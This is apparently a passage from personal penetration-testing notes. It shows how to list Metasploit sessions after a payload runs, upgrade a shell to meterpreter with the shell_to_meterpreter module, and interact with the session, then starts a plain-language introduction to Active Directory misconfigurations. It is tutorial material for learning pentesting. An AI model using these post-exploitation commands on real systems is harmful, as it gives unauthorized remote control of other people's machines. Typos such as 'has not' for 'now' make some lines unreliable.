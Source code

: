 ![[Pasted image 20231204024556.png]]
> Now as you can see the payload was succseful it did not put us into the sessions though, but it is running, type the following to see the sessions that was created: ~ `sessions`
![[Pasted image 20231204024704.png]]
>> As of now its best not to interact with the sessions at this time, as its pretty unstable next section will go over how a pentester can **upgrade** the shell. 

## 2.3 Upgrading a Metasploit command prompt to a meterpreter shell.
----
In this section i will be going over how to use shell_to_meterpreter a simple yet effective tool to upgrade a Metasploit shell to meterpreter.  

lets begin. 

```bash

# Select shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter

# set the session and run the command
set session 1 


run
```

![[Pasted image 20231204025434.png]]
> metasploit has not succefully created a meterpreter shell run `sessions` again to view
![[Pasted image 20231204025525.png]]

- Now lets interact with the meterpreter session enter the following to do so:~
```bash
sessions -i 3
```
![[Pasted image 20231204025636.png]]
> Note if you want to exit but not close the shell just type in `bg` this will now close the session but keeps it running in the background. 

***Reference***: ~ [HERE](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646)

# 3.0 ACTIVE DIRECTORY MICONFIGURATIONS
--------
an Active Directory misconfiguration is like having a set of wrong or mixed-up instructions in a big company, Imagine if this company said employees can go into any room they wanted like the server room, or the bosses office. if they employee enters this room they can find out information that they should not really know like how much someone is getting paid, or passwords written down on a note next to a computer. 
